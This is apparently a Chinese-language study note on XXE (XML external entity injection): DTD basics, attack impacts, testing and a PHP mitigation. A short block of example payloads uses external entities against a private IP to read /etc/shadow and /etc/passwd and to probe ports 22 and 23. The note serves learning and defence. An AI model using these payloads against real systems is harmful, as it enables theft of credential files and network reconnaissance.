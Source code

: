 # XXE

* XML
  * 基础知识
    * XML中可以引入外部文件
      * DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。DTD 可以在 XML 文档内声明，也可以外部引用
      * 引用外部DTD
        * `<!DOCTYPE 根元素 SYSTEM "文件名">`
        * 或者
          * `<!DOCTYPE 根元素 PUBLIC "public_ID" "文件名">`
      * 引用外部实体
        * `<!ENTITY 实体名称 SYSTEM "URI">`
        * 或者
          * `<!ENTITY 实体名称 PUBLIC "public_ID""URI">`
    * 当允许引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害
      * 不同程序支持的协议不一样
        * ![diff_protocol_support_diff_file](../../../../assets/img/xxe_diff_protocol_support_diff_file.png)
* `XXE`=`XML eXternal Entity`=`XML外部实体`
  * -> 
    * `XML外部实体注入`
    * `XXE漏洞`
    * `XXE攻击`
  * 概述
    * 一种针对 `弱配置` = `配置有问题` 的 `解析XML输入的应用程序` = `XML解析器`=`XML parser`的攻击
      * 当包含对外部实体的引用的XML输入是由弱配置的XML解析器处理时该攻击就会发生
      * 如果正确利用该漏洞，可能非常严重
    * 2017年的`OWSAP` 10之一
  * 攻击类型：`代码注入类`
  * 后果：泄漏机密数据
    * 导致 ~= 涉及到
      * 拒绝服务
      * 服务器端请求伪造
      * 端口扫描
  * XXE漏洞利用 = XXE攻击
    * 测试是否存在XXE漏洞
      * 第一步：尝试插入XML原字符metacharacter
    * 案例
      * 亿笑-Dos攻击
    * 攻击代码举例
      ```bash
      http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM "file%3A%2F%2F%2Fetc%2Fshadow">]><root>%26xxe%3B<%2Froot>

      http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM"file%3A%2F%2F%2Fetc%2Fpasswd">]><root>%26xxe%3B<%2Froot>

      http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM"http%3A%2f%2f192.168.0.145%3A22%2f123">]><root>%26xxe%3B<%2Froot>

      http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM "http%3A%2f%2f192.168.0.145%3A23%2f123">]><root>%26xxe%3B<%2Froot>
      ```
      * ![xxe_injection_demo](../../../../assets/img/xxe_injection_demo.png)
  * 防护=对策
    * 举例
      * PHP
        * 禁用外部实体：`libxml_disable_entity_loader`设置为`TRUE`
